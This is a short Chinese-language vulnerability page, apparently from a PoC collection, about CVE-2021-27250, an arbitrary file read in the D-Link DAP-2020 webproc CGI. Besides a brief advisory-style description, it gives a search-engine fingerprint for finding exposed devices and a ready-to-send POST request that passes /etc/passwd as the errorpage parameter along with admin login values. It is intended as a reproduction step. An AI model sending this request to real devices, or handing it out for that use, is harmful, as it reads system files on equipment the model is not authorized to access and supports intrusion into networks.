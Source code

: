 # D-LINK DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

<a-checkbox checked>D-LINK DAP-2020 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DAP-1360" && body="6.05"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657417802195-b0c19793-5041-4c70-8388-21a1827433b1.png)

验证POC

```php
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657419070826-a79f2e11-02b4-406b-a728-435e5259ceba.png)